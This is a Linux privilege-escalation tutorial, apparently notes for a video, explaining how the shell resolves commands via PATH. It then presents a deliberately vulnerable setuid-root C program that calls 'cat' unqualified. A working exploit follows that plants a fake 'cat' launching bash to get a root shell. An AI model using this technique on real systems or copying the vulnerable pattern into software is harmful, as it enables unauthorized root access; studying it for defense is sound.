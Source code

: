 # PATH Hijacking

Youtube Video: [Linux Privilege Escalation – PATH Hijacking](https://www.youtube.com/watch?v=IPs5xz5aEzk)

## What is the PATH?

When you launch a program, for example in the shell, you typically
just write the name of the program. For example, if I want to list out
all the files in a given directory, I can use the *ls* program as
follows

```sh
$ ls
content  public  thumbnail  video
```
Now, how does the shell process know which command to execute?
Remember that in modern operating systems, resources are located in
specific paths of a file system. All sorts of resources are located
like that. Even binaries, which are the programs we use to do
various activities.

This means that before executing the command, the shell needs to
resolve its full path, that is, it needs to know where does the
program reside within the file system. This is where the concept of
a PATH comes in.

**IMPORTANT**: The PATH is an environment variable, found within the
shell and other processes as well, which determines the folders to
look in order to resolve command names into full paths.

In order to print the value of the PATH, within the shell `bash` we
can execute the following command

```sh
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/opt/cuda/bin:/opt/cuda/nsight_compute:/opt/cuda/nsight_systems/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/usr/lib/rustup/bin:/home/leo/utils/:/home/leo/go/bin/
```
Notice here that `echo` is the command used to print stuff to the
console, and `$PATH` is the name of the environment variable which
contains the PATH.

As you can see, the PATH is actually a list of directory paths,
separated with colons. If we were to list out the paths in the
previous output we'd obtain the following list

```
/usr/local/sbin
/usr/local/bin
/usr/bin
/opt/cuda/bin
/opt/cuda/nsight_compute
/opt/cuda/nsight_systems/bin
/usr/lib/jvm/default/bin
/usr/bin/site_perl
/usr/bin/vendor_perl
/usr/bin/core_perl
/usr/lib/rustup/bin
/home/leo/utils/
/home/leo/go/bin/
```

Now, how is PATH used? Simple, when you launch a program without a
full path, such as when we just executed the command *ls*, the shell
will use this list of folders in order to look for the ls binary. It
will start from the first folder, and, until it has found an ls
binary, it will keep looking for further folders, until all of them
have been checked.

In the case of `ls`, it will do the following

1. First it checks if in the folder `/usr/local/sbin` there is the
binary `ls`, that is, it checks for the existence of the file

```
/usr/local/sbin/ls
```

Since there is no such file in our current file system, it keeps
going and checks for the next directory.

2. The second directory is `/usr/local/bin`, and so the shell checks for the existence of the file

```
 /usr/local/bin/ls
```
Since there is no such file in our current file system, it keeps going and checks for the next directory.

3. The third directory is ~/usr/bin~, and so the shell checks for the existence of the file

```
/usr/bin/ls
```

Since there is such file in our current file system, it loads the file in memory and it executes it.
Indeed, notice that if we execute `ls` or we execute `/usr/bin/ls` with its ful path, we get the same output

```sh
$ ls
content  public  thumbnail  video

$ /usr/bin/ls
content  public  thumbnail  video
```

To understand how a given command is resolved, we can use the binary
`which`. This binary uses the PATH in exactly the same we just
described in order to print out the full path of the command.

```
$ which ls
/usr/bin/ls
```

## PATH Hijacking
Having described what is the PATH, we can know understand the
dynamics of the *PATH Hijacking* attack.

Let's say we have the following C program called `reader.c`.

```c
// gcc reader.c -o reader

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

char *VALID_FILES[] = { "01.txt", "02.txt" };
int valid_files_count = 2;

int main(int argc, char **argv) {

  if (argc < 2) {
    fprintf(stderr, "[INFO]: Usage %s <filename>\n");
    return -1;
  }

  char *user_filename = argv[1];

  for (int i = 0; i < valid_files_count; i++) {
    char *valid_filename = VALID_FILES[i];
    int length = strlen(valid_filename);

    if (!strncmp(user_filename, valid_filename, length)) {
      char cmd[42] = {0};
      sprintf(cmd, "cat ./archive/%s", user_filename);
      setuid(0);
      setgid(0);
      system(cmd);
      return 0;
    }
  }

  printf("[INFO]: No file with such names were found.\n");
  
  return 0;
}

```
  
We can compile the program and make it a SUID binary owned by the `root` user as follows

```sh
gcc reader.c -o reader && sudo chown root reader && sudo chmod +s reader
```

As we can see, the program is used to read some files within an
archive directory, where archive contains a bunch of files which can
only be access by root, or by the program itself in read only mode.

```sh
$ sudo tree -L 2
.
├── archive
│   ├── 01.txt
│   ├── 02.txt
│   └── 03.txt
├── notes.org
├── reader
└── reader.c
```

The program just shown is vulnerable to PATH hijacking. Notice how the
program makes use of the `cat` binary in order to print out the
contents of the file. Specifically, notice how cat is called: no full
path is given, therefore the path that used to find the binary will be
computed at runtime using the PATH environment variable. And this is
why the program is vulnerable and can be exploited.

Before calling the binary, an attacker can set a specific environment PATH, and the vulnerable program will use that to find the cat binary. An attacker can then create a malicious binary or script called `cat` and place it within the first folder of the path. When the program will execute, it will find the attacker's malicious code, and not the original cat.

In the example shown above, the attacker can do the following

1. Create a malicous bash script and call it `cat` within the current folder

```sh
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat
chmod +x cat
```
2. Launch the program with a malicious PATH variable

```sh
PATH=.:$PATH ./reader 01.txt
```

3. Enjoy the profit

```
# whoami
root
```
